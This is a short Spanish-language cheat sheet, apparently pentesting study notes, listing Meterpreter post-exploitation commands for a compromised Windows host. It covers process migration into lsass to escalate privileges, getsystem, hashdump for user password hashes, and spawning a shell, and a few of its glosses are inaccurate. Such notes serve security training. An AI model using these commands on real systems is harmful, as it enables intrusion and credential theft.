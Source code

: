 # Meterpreter Commands

Tags: #Windows #Comandos #Meterpreter 

## Meterpreter 

Es un multi-funcional payload que es ejecutado en memoria en un sistema victima haciéndolo difícil de detectar. El se comunica a través de un socket stager y provee a un atacante un interpretado de comandos interactivo de un sistema victima que facilite la ejecución de comandos del sistema, navegación del sistema de archivos,  keylogging y mucho mas. 

## Comandos con Meterpreter

```bash 
# Cuando tienes la sesion con Meterpreter 

❯ ctrl + z                   # Colocas la sesion en 'Background'
❯ background                 # Ponemos la sesion en segundo plano
❯ sessions                   # Miramos las sesiones activas 
❯ sessions -u <ID>           # Regresamos a la sesion 
❯ sysinfo                  # Muestra informacion del Windows 
❯ pgrep explorer           # Mirar el numero del proceso y asi poder escalar privilegios 
❯ pgrep lsass              # Mirar el numero del proceso y asi poder escalar privilegios 
❯ migrate <ID>             # Nos migramos al proceso 
❯ getuid                   # Miramos el nombre del usuario 
❯ getprivs                 # Miramos los privilegios 
❯ getsystem                # Miras los procesos privilegiados 
❯ getprivs                 # Miramos los  procesos con privilegios
❯ hashdump                 # Te muestra todos los hashes de los usuarios 
❯ shell                      # Nos carga una shell
	❯ /bin/bash -i          # Si no nos crea la Shell con el comando anterior, lo hacemos con este 
❯ pwd                        # Nos muestra la ruta del dir actual 
❯ cd /                       # Nos dirigimos a la raiz 'C:\'
❯ cat file.txt               # Miramos el contenido de un archivo 
```